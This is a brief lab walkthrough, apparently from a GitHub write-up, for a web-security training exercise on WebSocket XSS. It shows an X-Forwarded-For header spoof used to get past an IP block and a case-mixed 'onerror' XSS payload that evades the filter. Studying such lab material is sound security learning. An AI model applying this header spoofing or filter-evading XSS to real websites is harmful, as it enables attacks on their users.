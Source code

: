 Title: Manipulating the WebSocket handshake to exploit vulnerabilities
Level: PRACTITIONER
Desc:  This online shop has a live chat feature implemented using WebSockets.
It has an aggressive but flawed XSS filter.
To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 
Hint: Sometimes you can bypass IP-based restrictions using HTTP headers like X-Forwarded-For. 

# Walkthrough: 
I've got blocked by sending malicious request via websocket:
<img width="1124" height="709" alt="image" src="https://github.com/user-attachments/assets/7ba39847-966c-4db5-98b7-56a5262dc2c0" />

Adding special header `X-Forwarded-For: 1.1.1.1`:
<img width="399" height="483" alt="image" src="https://github.com/user-attachments/assets/cc430144-0afc-44ab-91a2-c05981bf1b72" />

changing payload to : ```{"message":"<img src=1 oNeRroR='alert`1`'>"}```

